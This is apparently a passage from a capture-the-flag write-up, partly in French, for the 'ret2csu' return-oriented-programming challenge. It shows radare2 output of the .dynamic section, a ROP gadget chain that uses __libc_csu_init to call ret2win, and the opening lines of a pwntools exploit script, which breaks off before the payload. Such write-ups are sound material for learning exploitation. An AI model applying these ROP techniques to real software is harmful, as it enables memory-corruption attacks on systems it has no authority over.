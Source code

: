 
This function referenced in .DYNAMIC section

    [0x00600e00]> pd 10 @ sym..dynamic
                ;-- section..dynamic:
                ;-- .dynamic:
                0x00600e00      .qword 0x0000000000000001                  ; [20] -rw- section size 496 named .dynamic
                0x00600e08      .qword 0x0000000000000001
                0x00600e10      .qword 0x0000000000000001
                0x00600e18      .qword 0x0000000000000038
                0x00600e20      .qword 0x000000000000001d
                0x00600e28      .qword 0x0000000000000078
                0x00600e30      .qword 0x000000000000000c
                0x00600e38      .qword 0x00000000004004d0 ; section..init ; sym._init ; sym..init
                0x00600e40      .qword 0x000000000000000d
    ici ====>   0x00600e48      .qword 0x00000000004006b4 ; section..fini ; sym._fini ; sym..fini



Then , as "r12 + rbx*8" give 0x00600e48 the call will do :

    sub rsp, 8
    add rsp, 8 : nothing
    ret        : return in libc_csu_init


Try it withis chaine:

|address   | gadget |comment |
|----------|--------------|-----|
|0x0040069a | pop gadget |
| 0x0  | rbp |
| 0x0  | rbp |
|0x0600e48 | r12 : .dynamics + 48 => @.fini|
|0xdeadbeefdeadbeef | r13 |
|0xcafebabecafebabe | r14 |
|0xd00df00dd00df00d | r14 |
|0x00400680 | call_gadget |
|0x00400510 | ret2win@plt |

with this python script we cat try it :


``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# break a le fin de pwnme
gs='''
b *pwnme+150
c
'''

# Set up pwntools for the correct architecture
elf =  ELF('ret2csu')
context.binary=elf

# Offset avant ecrasement de l'adresse de retour
offset=0x28

```
